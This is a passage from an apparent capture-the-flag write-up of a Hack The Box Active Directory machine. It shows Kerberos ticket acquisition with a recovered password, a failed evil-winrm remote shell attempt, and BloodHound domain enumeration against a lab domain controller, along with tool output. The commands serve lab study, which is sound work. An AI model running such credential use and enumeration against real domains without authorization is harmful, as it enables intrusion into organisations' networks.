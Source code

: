     Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => Dev_Account_A
    [*] Valid user => Dev_Account_B
    [*] Valid user => david.jjackson
    [*] No passwords were discovered :'(



```python
!echo 'DJACKSONPASS' | KRB5_CONFIG=./krb5.conf KRB5CCNAME=./david.jjackson.ccache kinit david.jjackson
```

    Password for david.jjackson@MIRAGE.HTB: 


Lets set the date and see if we can log in. 

```sh
 sudo ntpdate mirage.htb
20 Jul 16:26:34 ntpdate[400258]: step time server 10.129.241.222 offset +25201.520131 sec
```

Of course it's not this simple, we'll have to just start enumerating.
```sh
 KRB5_CONFIG=./krb5.conf KRB5CCNAME=./david.jjackson.ccache evil-winrm -i dc01.mirage.htb -r MIRAGE.HTB
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Invalid token was supplied
Unknown code 0

                                        
Error: Exiting with code 1
```

Note that the password and username are affects of the `bloodhound-python` tool I don't necessarily understand, but using the ccache will still work as expected.


```python
!KRB5CCNAME=./david.jjackson.ccache KRB5_CONFIG=./krb5.conf bloodhound-python -d mirage.htb -c All --kerberos -no-pass -dc dc01.mirage.htb -ns 10.129.241.222 --auth-method kerberos -u david.jjackson -p 'DJACKSONPASS'
```

    INFO: Found AD domain: mirage.htb
    INFO: Using TGT from cache
    INFO: Found TGT with correct principal in ccache file.
    INFO: Connecting to LDAP server: dc01.mirage.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: dc01.mirage.htb
    INFO: Found 12 users
    INFO: Found 57 groups
    INFO: Found 2 gpos
    INFO: Found 21 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts